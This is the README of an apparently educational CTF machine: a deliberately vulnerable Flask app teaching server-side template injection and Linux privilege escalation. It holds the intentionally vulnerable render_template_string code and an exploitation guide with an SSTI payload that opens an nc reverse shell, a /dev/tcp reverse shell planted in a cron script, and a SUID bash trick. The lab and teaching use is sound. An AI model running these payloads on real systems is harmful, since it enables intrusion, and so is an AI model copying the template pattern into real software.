 # THOLVI Web SSTI - Vulnerable CTF Machine

![CTF Difficulty](https://img.shields.io/badge/Difficulty-Easy-green)
![Category](https://img.shields.io/badge/Category-Web%20%2B%20PrivEsc-blue)
![Platform](https://img.shields.io/badge/Platform-Vagrant%2FDocker%2FVirtualBox-orange)

A deliberately vulnerable Flask-based CTF machine designed to teach:
- Server-Side Template Injection (SSTI)
- Linux privilege escalation techniques
- Basic web application security

## Table of Contents
- [Machine Overview](#machine-overview)
- [Quick Start](#quick-start)
- [Detailed Setup](#detailed-setup)
- [Vulnerability Breakdown](#vulnerability-breakdown)
- [Exploitation Guide](#exploitation-guide)
- [Mitigation Strategies](#mitigation-strategies)
- [Flag Locations](#flag-locations)
- [Teaching Resources](#teaching-resources)
- [Contributing](#contributing)

## Machine Overview

**Difficulty Level**: Easy  
**Learning Objectives**:
- Identify and exploit SSTI vulnerabilities
- Gain initial foothold via web exploitation
- Perform Linux privilege escalation
- Understand secure coding practices

**Attack Path**:
1. Web App (Flask SSTI) → 2. Initial Foothold → 3. Privilege Escalation

## Quick Start

### Vagrant (Recommended)
```bash
git clone https://github.com/yourusername/flasky-hack-ctf.git
cd flasky-hack-ctf
vagrant up
vagrant ssh
```
Access the vulnerable app at: http://localhost:5000
### Docker
```
docker build -t flasky-hack .
docker run -p 5000:5000 flasky-hack
```
#### Detailed Setup
#### Requirements

    Vagrant 2.2+

    VirtualBox 6.0+

    OR Docker 19.03+

#### Files Structure
```
/flasky-hack-ctf
├── Vagrantfile
├── setup.sh
├── vuln_app.py
├── Dockerfile
└── README.md
```
Customization

Edit vuln_app.py to modify:

    Flask debug mode (line 10)

    Listening port (line 11)

    Service banners

Vulnerability Breakdown
1. Server-Side Template Injection (SSTI)

Location: /greet endpoint
Vulnerable Code:
```
@app.route("/greet")
def greet():
    name = request.args.get('name', 'Guest')
    return render_template_string(f"Hello, {name}!")  # Vulnerable line
```
Impact: Remote Code Execution (RCE) as Flask user
2. Privilege Escalation Vectors
Vector	Location	Vulnerability Type
SUID Binary	/usr/bin/flask-admin	Misconfigured permissions
Cron Job	/etc/cron.d/backup	Writable script
Exploitation Guide
Step 1: SSTI Detection
```http
http://10.0.0.10:5000/greet?name={{7*7}}
```
Expected output: Hello, 49!
Step 2: Reverse Shell
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.5 4444 >/tmp/f').read()}}
```
Listener:
```Bash
nc -lvnp 4444
```
Step 3: Privilege Escalation

Method A: SUID Binary
```Bash
find / -perm -4000 2>/dev/null
echo '/bin/bash -p' > /usr/bin/flask-admin
./flask-admin
```
#### Method B: Cron Job
```Bash
echo 'bash -i >& /dev/tcp/10.0.0.5/5555 0>&1' >> /opt/backup.sh
```
### Mitigation Strategies
For SSTI

    Avoid render_template_string() with user input

    Use proper templating:
```Python
return render_template("greet.html", name=name)
```
    Implement input sanitization

For Privilege Escalation

    SUID Binaries:
```Bash
find / -perm -4000 -exec chmod u-s {} \;  # Remove unnecessary SUID bits
```
### Cron Jobs:
```Bash
chown root:root /opt/backup.sh
chmod 700 /opt/backup.sh
```
Flag Locations
Flag	Location	Access Requirements
user.txt	/home/flask/	Initial shell access
root.txt	/root/	Root privileges
Teaching Resources
Suggested Learning Path

    Basic Linux commands

    Web request analysis (Burp Suite/curl)

    Template injection concepts

    Privilege escalation techniques

Monitoring Tools
```Bash
# Flask logs
journalctl -u flask -f

# Authentication logs
tail -f /var/log/auth.log
```
Contributing

Found a bug or have improvements?

    Fork the repository

    Create your feature branch (git checkout -b feature/fooBar)

    Commit your changes (git commit -am 'Add some fooBar')

    Push to the branch (git push origin feature/fooBar)

    Create a new Pull Request

Disclaimer: This machine is for educational purposes only. Use only in controlled environments with proper authorization.
